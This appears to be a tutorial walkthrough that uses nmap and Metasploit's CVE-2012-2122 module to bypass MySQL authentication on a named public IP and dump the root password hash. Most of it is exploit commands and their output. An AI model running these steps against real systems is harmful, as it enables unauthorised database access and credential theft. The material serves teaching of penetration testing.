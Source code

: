 # Example: Exploiting old MySQL database with nmap and metasploit
IP Address: `http://188.166.120.53/`

Let's have a look at it!

---

Let's install nmap - a port scanning tool:

`$ apt-get update && apt-get install nmap`


`$ nmap -v -A -sV 188.166.120.53`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b7:ca:32:1d:78:a3:9f:c3:4e:12:99:c2:e0:ca:9f:8a (RSA)
|   256 14:47:96:51:48:0d:88:78:0f:ff:d0:a7:29:42:1b:7b (ECDSA)
|_  256 fc:1b:a0:b2:a5:4d:98:2e:c7:d2:20:db:39:6d:72:b4 (ED25519)
3306/tcp open  mysql   MySQL 5.5.23
| mysql-info:
|   Protocol: 10
|   Version: 5.5.23
|   Thread ID: 4
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, Speaks41ProtocolOld, LongColumnFlag, SupportsTransactions, IgnoreSigpipes, ConnectWithDatabase, LongPassword, IgnoreSpaceBeforeParenthesis, FoundRows, InteractiveClient, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, ODBCClient, SupportsLoadDataLocal, SupportsCompression, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: /B@XyyrS&cDeSOrqaq7\
|_  Auth Plugin Name: mysql_native_password
```

Okay, so the web server has two open ports, one for ssh and one for mysql. On the more interesting side, we can see that MySQL is version 5.5.23, which is quite old.

![alt text](https://i.imgur.com/AihfEd0.png)

Let's see if there are any publically known vulnerabilities for this version using https://www.cvedetails.com/

We will go to "Vulnerability Search" and search for public exploits

![alt text](https://i.imgur.com/UjYMwWv.png)
![alt text](https://i.imgur.com/QV61z2j.png)

From the search results we gather that `CVE-2012-5612`, `CVE-2012-5611`, and `CVE-2012-2122` seems applicable for MySQL 5.5.23.

We are not really interested in Denial-of-Service (DoS), so let us focus on `CVE-2012-2122`.

Hopping back into the metasploit console:

	msf6 > search CVE-2012-2122


```
Matching Modules
================

   #  Name                                               Disclosure Date  Rank    Check  Description
   -  ----                                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/mysql/mysql_authbypass_hashdump  2012-06-09       normal  No     MySQL Authentication Bypass Password Dump


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/mysql/mysql_authbypass_hashdump
```

Now we just plug in the module, and let it do its magic:

`msf6 > use auxiliary/scanner/mysql/mysql_authbypass_hashdump`

`msf6 > show options`

```
Module options (auxiliary/scanner/mysql/mysql_authbypass_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     3306             yes       The target port (TCP)
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME  root             yes       The username to authenticate as
```

We need to specify RHOSTS:

`msf6 > set RHOSTS 188.166.120.53`

`msf6 > exploit`

```
[+] 188.166.120.53:3306   - 188.166.120.53:3306 The server allows logins, proceeding with bypass test
[*] 188.166.120.53:3306   - 188.166.120.53:3306 Authentication bypass is 10% complete
[*] 188.166.120.53:3306   - 188.166.120.53:3306 Authentication bypass is 20% complete
[+] 188.166.120.53:3306   - 188.166.120.53:3306 Successfully bypassed authentication after 252 attempts. URI: mysql://root:X@188.166.120.53:3306
[+] 188.166.120.53:3306   - 188.166.120.53:3306 Successfully exploited the authentication bypass flaw, dumping hashes...
[+] 188.166.120.53:3306   - 188.166.120.53:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 188.166.120.53:3306   - 188.166.120.53:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 188.166.120.53:3306   - 188.166.120.53:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 188.166.120.53:3306   - 188.166.120.53:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 188.166.120.53:3306   - 188.166.120.53:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 188.166.120.53:3306   - 188.166.120.53:3306 Hash Table has been saved: /root/.msf4/loot/20210412114810_default_188.166.120.53_mysql.hashes_956264.txt
[*] 188.166.120.53:3306   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

We have now acquired the hash of the password for the root user. If it is a weak password, it could be crackable in a very finite amount of time.

